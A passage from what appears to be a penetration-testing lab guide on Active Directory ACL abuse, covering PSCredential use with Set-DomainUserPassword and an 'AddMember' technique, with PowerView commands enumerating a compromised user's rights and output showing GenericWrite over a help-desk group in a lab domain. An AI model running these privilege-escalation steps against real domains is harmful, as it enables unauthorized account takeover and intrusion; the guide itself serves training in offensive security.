 Note: The **`SecureString` object** (`$SecPassword`) is associated with the **user `wley`** because it is used to create a **`PSCredential` object**, which represents a specific user's credentials. These credentials are used afterwards with the  `Set-DomainUserPassword` command, whereas the `-Credential` parameter ensures that all actions taken within that cmdlet use the privileges of the `wley` account.

###  AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

Let's imagine we have gained access to the user damundsen via the ForceChangePassword abuse. Now we can continue using PowerView to take this attack further:

```powershell
$sid2 = Convert-NameToSid damundsen

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

See the results:

```powershell
AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1176
AccessMask            : 131132
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

#### GenericWrite


![](img/dacl.png)
